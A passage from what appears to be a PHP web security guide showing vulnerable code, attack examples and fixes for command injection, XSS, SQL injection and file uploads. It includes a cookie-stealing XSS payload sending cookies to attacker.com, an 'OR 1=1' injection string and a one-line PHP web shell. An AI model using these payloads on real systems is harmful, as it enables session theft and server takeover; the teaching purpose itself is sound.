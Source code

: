 **Prevention**:
```php
// Avoid using system/exec functions with user input
// If absolutely necessary, use escapeshellarg()
$safe_cmd = escapeshellarg($_GET['cmd']);
system("ls " . $safe_cmd);
```

## 3. Cross-Site Scripting (XSS)

**What it is**: Injecting malicious JavaScript that executes in victims' browsers.

```php
// Vulnerable code example
echo "Hello " . $_GET['name'];

// Attack: Steal cookies
// http://example.com/?name=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

**Prevention**:
```php
// Use htmlspecialchars() for output
echo "Hello " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
```

## 4. SQL Injection

**What it is**: Injecting malicious SQL queries through user input.

```php
// Vulnerable code example
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id = $id";
$result = mysqli_query($conn, $sql);

// Attack: Bypass authentication
// http://example.com/?id=1 OR 1=1--
```

**Prevention**:
```php
// Use prepared statements
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $_GET['id']);
$stmt->execute();
```

## 5. File Upload Vulnerabilities

**What it is**: Uploading malicious files that can be executed on the server.

```php
// Vulnerable code example
move_uploaded_file($_FILES['file']['tmp_name'], "uploads/" . $_FILES['file']['name']);

// Attack: Upload PHP shell
// <?php system($_GET['cmd']); ?>
```
